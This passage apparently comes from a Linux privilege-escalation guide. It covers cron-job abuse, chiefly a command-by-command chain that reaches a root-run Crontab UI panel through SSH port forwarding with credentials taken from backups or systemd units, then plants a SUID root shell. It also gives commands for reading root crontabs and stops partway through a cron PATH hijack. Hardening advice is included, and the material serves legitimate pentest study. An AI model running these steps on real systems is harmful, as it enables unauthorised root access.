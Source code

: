 ## Scheduled/Cron jobs

### Crontab UI (alseambusher) running as root – web-based scheduler privesc

If a web “Crontab UI” panel (alseambusher/crontab-ui) runs as root and is only bound to loopback, you can still reach it via SSH local port-forwarding and create a privileged job to escalate.

Typical chain
- Discover loopback-only port (e.g., 127.0.0.1:8000) and Basic-Auth realm via `ss -ntlp` / `curl -v localhost:8000`
- Find credentials in operational artifacts:
  - Backups/scripts with `zip -P <password>`
  - systemd unit exposing `Environment="BASIC_AUTH_USER=..."`, `Environment="BASIC_AUTH_PWD=..."`
- Tunnel and login:
```bash
ssh -L 9001:localhost:8000 user@target
# browse http://localhost:9001 and authenticate
```
- Create a high-priv job and run immediately (drops SUID shell):
```bash
# Name: escalate
# Command:
cp /bin/bash /tmp/rootshell && chmod 6777 /tmp/rootshell
```
- Use it:
```bash
/tmp/rootshell -p   # root shell
```

Hardening
- Do not run Crontab UI as root; constrain with a dedicated user and minimal permissions
- Bind to localhost and additionally restrict access via firewall/VPN; do not reuse passwords
- Avoid embedding secrets in unit files; use secret stores or root-only EnvironmentFile
- Enable audit/logging for on-demand job executions

Check if any scheduled job is vulnerable. Maybe you can take advantage of a script being executed by root (wildcard vuln? can modify files that root uses? use symlinks? create specific files in the directory that root uses?).

```bash
crontab -l
ls -al /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

### Cron path

For example, inside _/etc/crontab_ you can find the PATH: _PATH=**/home/user**:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin_

(_Note how the user "user" has writing privileges over /home/user_)

If inside this crontab the root user tries to execute some command or script without setting the path. For example: _\* \* \* \* root overwrite.sh_\
Then, you can get a root shell by using:
